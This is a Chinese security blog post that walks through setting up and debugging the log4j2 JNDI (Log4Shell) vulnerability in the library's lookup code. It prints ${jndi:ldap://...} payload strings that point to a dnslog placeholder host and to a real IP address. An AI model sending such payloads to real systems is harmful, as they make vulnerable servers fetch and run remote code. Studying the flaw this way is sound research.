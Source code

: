 ```yaml
---
title: log4j2 jndi 漏洞学习和调试
author: ch4ser
typora-root-url: ../
date: 2021-12-11 14:56:51
categories:
  - 安全研究
---
```


> 明天安全圈校招面试: 
> 面试官: 请说说你会什么技能?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 面试官: 请说说你最近关注过的漏洞?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 面试官: 你平时有动手调试过吗?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 我：这dnslog是不是卡了 这面试官怎么还没rce
<!--more-->

## 环境搭建

新建maven项目, pom.xml写入
```xml
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
```
1. 在官网 https://archive.apache.org/dist/logging/log4j/ 下载log4j然后在project structure中导入

![](2021-12-11-16-16-25.png)

2. 下载低版本java8 https://repo.huaweicloud.com/java/jdk/ 我下载的是8u181,将其作为java运行环境

![](2021-12-11-16-24-14.png)

写测试代码

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Main {
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args){
        logger.error("${jndi:ldap://39.105.176.37:1389/smzifq}");
    }
}
```

## 漏洞调试

调试进入
![](2021-12-11-15-37-32.png)


![image-20211211152434057](image-20211211152434057.png)


调试到
![image-20211211152611862](image-20211211152611862.png)



然后调试到`MessagePatternConverter#format`方法, 看到这里会试图匹配`${`字符.并将payload字符串解析到变量value中去.

![image-20211211152039629](image-20211211152039629.png)


步进replace函数, 再步进substitute函数
![image-20211211152218136](image-20211211152218136.png)

进入下一个substitute中会看到它会匹配结尾的`}`
![](2021-12-11-15-56-47.png)


再往下就可以看到`resolveVariable`方法被调用, 里面调用了`lookup`方法
![](2021-12-11-16-01-45.png)

![image-20211211152245317](image-20211211152245317.png)

在`lookup`方法中,会试图寻找`:`,并将`:`前面的部分作为prefix, 随后根据prefix来寻找类

![](2021-12-11-16-06-13.png)

可以看到这里规定了不同的prefix对应的类

![image-20211211150105597](image-20211211150105597.png)


使用的Jndi,所以使用的是`JndiLookup`类,调用了`JndiLookup#lookup`方法,并将`:`后面的部分作为参数传入.

![image-20211211150131696](image-20211211150131696.png)

最后调用到了`javax.naming.InitialContext#lookup`方法,server端收到请求
![](2021-12-11-16-11-46.png)

![](2021-12-11-16-13-38.png)

## 漏洞利用

普通的jndi注入就可以了

## 参考

https://www.anquanke.com/post/id/262668#h3-5
